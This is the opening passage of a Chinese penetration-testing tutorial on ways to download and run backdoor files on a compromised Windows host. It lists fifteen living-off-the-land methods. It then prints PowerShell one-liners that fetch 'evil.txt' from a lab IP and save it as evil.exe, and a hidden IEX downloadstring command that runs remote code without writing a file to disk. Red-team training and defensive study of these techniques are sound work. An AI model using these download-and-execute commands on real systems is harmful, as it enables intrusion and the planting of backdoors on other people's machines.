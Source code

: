 ## 第5篇：Windows命令行文件下载方式汇总

当我们通过Web渗透获取了一个Shell，而且目标主机是Windows，我们该怎么去下载后门文件到目标主机上执行呢？

一般来说，实现Windows文件下载执行的方式不外乎以下几种方式。第一种，远程下载文件到本地，然后再执行；**第二种，远程下载执行，执行过程没有二进制文件落地，这种方式已然成为后门文件下载执行的首要方式****。**另外呢，只要你所在服务器的环境支持，你也可以通过任何一门语言来实现它，这种方式暂不在本文的讨论范围之内。

**在这里，****本文收集了15种常见的文件下载执行的方式，并结合具体案例**，让我们一起来看看是怎么实现的吧。

------

- PowerShell
- Bitsadmin
- certutil
- wget
- ipc$文件共享
- FTP
- TFTP
- WinScp
- msiexec
- IEExec
- mshta
- rundll32
- regsvr32 
- MSXSL.EXE
- pubprn.vbs

------

**1、PowerShell**

PowerShell是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：

~~~
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
~~~

远程执行命令：

~~~
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
~~~

![](./image/20200413-1.png)
